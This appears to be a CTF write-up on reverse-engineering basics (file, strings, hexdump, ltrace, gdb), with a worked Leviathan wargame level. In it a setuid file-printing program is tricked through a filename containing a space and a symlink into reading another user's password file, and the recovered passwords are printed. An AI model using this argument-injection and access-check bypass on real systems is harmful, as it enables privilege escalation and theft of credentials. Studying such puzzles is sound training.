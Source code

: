 Learning from the CTF : Reverse Engineering
============================================

This post lists the learnings from the CTF while doing Reverse Engineering.

If we are provided with a binary to reverse engineer, for example asking for password.

* file: The first step is to run file command on the binary which would tell us whether it is 32/64 bit or statically/dynamically linked etc.

 .. code-block :: bash 

   bitvijays@kali:~/Desktop/CTF/31C3$ file cfy 
   cfy: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x9bc623f046535fba50a2124909fb871e5daf198e, not stripped


* The second step could be running strings or "hexdump -C" on it, specially in the case of very simple re challenges like asking for password and stored in an array.

 .. code-block :: bash 

   bitvijays@kali:~$ strings check 
   /lib/ld-linux.so.2
   D$,1
   D$%secrf
   D$)et
   D$ love
   T$,e3
   [^_]
   password: 
   /bin/sh
   Wrong password, Good Bye ...
   ;*2$"

 .. code-block :: bash 	

   hexdump -C check | more 
   00000540  31 c0 c7 44 24 18 73 65  78 00 c7 44 24 25 73 65  |1..D$.sec..D$%se|
   00000550  63 72 66 c7 44 24 29 65  74 c6 44 24 2b 00 c7 44  |crf.D$)et.D$+..D|
   00000560  24 1c 67 6f 64 00 c7 44  24 20 6c 6f 76 65 c6 44  |$.god..D$ love.D|

* The next step could be running strace or ltrace on the binary. strace: trace system calls and signals ltrace: A library call tracer

* GDB Commands:

 .. code-block :: bash 

   info file: Tell us about the entry points:
   info functions: Tell us about the functions in the binary.

Examples
********

* Consider a binary which is setuid and used to read files.

 .. code-block :: bash 

   leviathan2@melinda:~$ ./printfile 
   *** File Printer ***
   Usage: ./printfile filename

   leviathan2@melinda:~$ ls -la
   -r-sr-x---   1 leviathan3 leviathan2 7498 Nov 14 10:32 printfile

 We need to read

 .. code-block :: bash 

   leviathan2@melinda:~$ ls -l /etc/leviathan_pass/leviathan3 
   -r-------- 1 leviathan3 leviathan3 11 Nov 14 10:32 /etc/leviathan_pass/leviathan3


 Let's see the ltrace of the binary while accessing a file which we are allowed to read

 .. code-block :: bash 

   leviathan2@melinda:~$ ltrace ./printfile /etc/leviathan_pass/leviathan2 
   __libc_start_main(0x804852d, 2, 0xffffd774, 0x8048600 <unfinished ...>
   access("/etc/leviathan_pass/leviathan2", 4)                                                                            = 0
   snprintf("/bin/cat /etc/leviathan_pass/lev"..., 511, "/bin/cat %s", "/etc/leviathan_pass/leviathan2")                  = 39
   system("/bin/cat /etc/leviathan_pass/lev"...ougahZi8Ta
   <no return ...>
   --- SIGCHLD (Child exited) ---
   <... system resumed> )                                                                                                 = 0
   +++ exited (status 0) +++

 So it's a matter of tricking access(), if the call to access() succeeds then it calls system("cat file"), so if pass the argument printfile / etc/issue, then it works. We can get around it by using a space in our file name. Eg: touch foo\ bar. then we create a symlink to the password file and call it foo. ln -s /etc/leviathanpass/leviathan3 foo

 .. code-block :: bash 

   leviathan2@melinda:~$ mkdir /tmp/levi
   leviathan2@melinda:~$ cd /tmp/levi
   leviathan2@melinda:/tmp/levi$ ls
   leviathan2@melinda:/tmp/levi$ ln -s /etc/leviathan_pass/leviathan3 ./foo
   leviathan2@melinda:/tmp/levi$ touch foo\ bar
   leviathan2@melinda:/tmp/levi$ ~/printfile foo\ bar 
   Ahdiemoo1j
   /bin/cat: bar: No such file or directory


